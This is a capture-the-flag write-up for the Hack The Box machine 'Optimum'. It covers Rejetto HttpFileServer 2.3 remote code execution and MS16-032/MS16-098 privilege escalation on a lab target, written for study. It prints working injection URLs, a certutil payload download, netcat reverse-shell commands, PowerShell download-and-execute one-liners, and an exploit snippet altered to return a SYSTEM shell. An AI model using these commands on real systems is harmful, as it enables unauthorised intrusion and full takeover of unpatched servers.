 ```yaml
---
title: Optimum
tags: windows
---
```


![image](assets/79375859-4e294100-7f27-11ea-99b2-7edafa05220c.png)

## Overview

Optimum is a Windows Server box running Rejetto HttpFileServer 2.3 that was vulnerable to unauthenticated remote code execution. I was able to leverage the RCE to get an initial foothold. I used sherlock to look for kernel exploits and found that it was vulnerable to MS16-032 (Secondary Logon Service) which was used to create a reverse shell as the 'nt authority/system' account. 

>Secondary Logon provides a means for entering alternate credentials that is often used by administrators to authenticate and perform administrative tasks when logged on with a non-administrator account. The service fails to sanitize handles when creating a new process which can be abused by a standard user to perform privilege escalation as a system service thread pool handle can be duplicated.

## Enumeration

**Software**
* Windows Server 2012 R2
* Rejetto HttpFileServer 2.3

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.8 -oN /mnt/data/boxes/optimum/_full_tcp_nmap.txt
```

* 80/tcp - http

## Steps (user)

The only port open from the nmap scan was port 80 so I browsed to http://10.10.10.8 and was presented with an "HttpFileServer" page.

![image](assets/83679465-70e1e880-a5ad-11ea-924e-b8afc9c07845.png)

I looked around the site and played with some functionality but I didn't gain any other useful information. There was a link to log in but I didn't have credentials at this point so I moved on.  Under server information I noted the application name and version - HttpFileServer 2.3 - which is a hyperlink that goes to https://www.rejetto.com/hfs/

![image](assets/83679751-e77ee600-a5ad-11ea-94d6-1de041baf6ee.png)

Doing a search for in searchsploit for "rejetto" turned up a number of results.

![image](assets/83679912-2dd44500-a5ae-11ea-911c-770e9f88e77f.png)

According to 34668, there is a flaw in how ParsetLib.pas handles regex in HttpFileServer which allows for remote code execution. This allowed me to use HFS script commands by using %00 to bypass the filtering.

![image](assets/83680747-5b6dbe00-a5af-11ea-8e4c-efb1adbf07b1.png)

As a test I sent a command that would ping my machine. First I set up tcpdump to listen for icmp requests on tun0

```
sudo tcpdump -i tun0 icmp
```

Then I set up burp to capture the request and modified the request to ping my box.

```
http://10.10.10.8/?search=%00{.exec|/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+ping+-n+1+10.10.14.26.} }
```

![image](assets/83693167-86620d00-a5c3-11ea-9d36-adb460d6d2fc.png)

I received an icmp echo request which confirmed that I was able execute commands. The next step was to transfer netcat to the box and create a reverse shell.

> Note: Initially I transferred the 32-bit version of netcat but this caused a problem with the exploit. The problem was that I was trying to execute a 64-bit powershell script from a 32-bit version of cmd.exe. The solution was to transfer the 64-bit version of netcat to get a 64-bit shell.

I copied nc64.exe to my working directory and set up a python http server in preparation to transfer files.

```
cp ~/tools/windows-binaries/nc64.exe .
sudo python3 -m http.server 80
```

Using repeater in Burp I sent the following command which uses certutil to download nc64.exe to the target.

```
http://10.10.10.8/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+certutil+-urlcache+-split+-f+http%3a//10.10.14.26/nc64.exe.}
```

![image](assets/83818426-5c791b00-a695-11ea-9acf-137f7c55367d.png)


I set up a netcat listener (rlwrap nc -lvnp 4200) and the executed the command to create the reverse shell - 'nc64.exe -e cmd 10.10.14.26 4200'

```
http://10.10.10.8/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+nc64.exe+-e+cmd+10.10.14.26+4200.}
```

![image](assets/83818576-b7ab0d80-a695-11ea-959a-339cff9f661a.png)

## Steps (root/system)

After doing some enumeration and not finding any obvious privilege escalation paths, I proceeded with sherlock to look for kernel exploits. 

I copied sherlock to working directory and started a python http server

```
cp ~/tools/Sherlock/Sherlock.ps1 .
sudo python3 -m http.server 80
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing the 'Find-AllVuns' function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.26/Sherlock.ps1');Find-AllVulns"
```

There were a few options available but I decided to go with the well known MS16-032. I used the powershell version from [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite)

![image](assets/83696390-5c601900-a5ca-11ea-944d-a2827dcb5152.png)


I already had the git repo cloned to my local machine so I copied the script to my working directory.

```
cp ~/tools/PowerShell-Suite/Invoke-MS16-032.ps1 .
```

This exploit creates a pop-up cmd prompt as 'nt authority\system' by default but beacuse I'm not logged in via the gui I modified it to use netcat to create a reverse shell instead.

![image](assets/83700958-435d6500-a5d6-11ea-9e35-f2c7f7060c06.png)

```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
                $CallResult = [Advapi32]::CreateProcessWithLogonW(
                        "user", "domain", "pass",
                        0x00000002, 'c:\windows\system32\cmd.exe', '/c C:\users\kostas\desktop\nc64.exe -e cmd 10.10.14.26 4201',
                        0x00000004, $null, $GetCurrentPath,
                        [ref]$StartupInfo, [ref]$ProcessInfo)

```

On the target box I used powershell IEX again to download the powershell script and execute the 'Invoke-MS16-032' function.

```
powershell -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.26/Invoke-MS16-032.ps1');Invoke-MS16-032
```

The exploit failed at first with "No valid thread handle was captured, exiting." The reason for this is that I was executing a 64-bit exploit in a 32-bit shell. A full explanation can be found here: https://spencerdodd.github.io/2017/07/20/WOW64/

![image](assets/83811099-29c82600-a687-11ea-9832-18baf2f89c67.png)

Once the script was executed in a 64-bit shell I received a callback on my netcat listener and shell as 'nt authority\system' user.

![image](assets/83700913-29238700-a5d6-11ea-8a29-f08aca31f455.png)

## Steps (root/system - alternate)

When I did this box originally I used MS16-098 for privilege escalation which was listed by windows-exploit-suggester. For this write-up I decided to use Sherlock instead but for some reason it didn't list MS16-098. I used this as an opportunity to try a different exploit. 

> Additional information about MS16-098 can be found here https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/

First I copied the output of the 'systeminfo' command on the target box and saved it to a file. I ran windows-exploit-suggester to see which vulnerability were applicable.

```
/windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/83819582-3dc85380-a698-11ea-90d6-291666393da7.png)

I downloaded bfill.exe from the sensepost [github repo](https://github.com/sensepost/ms16-098) and transferred it to the target machine using the python http server and certutil as described earlier. I received root shell right on the box.

![image](assets/83819726-9f88bd80-a698-11ea-8861-94ddf2ccebe7.png)
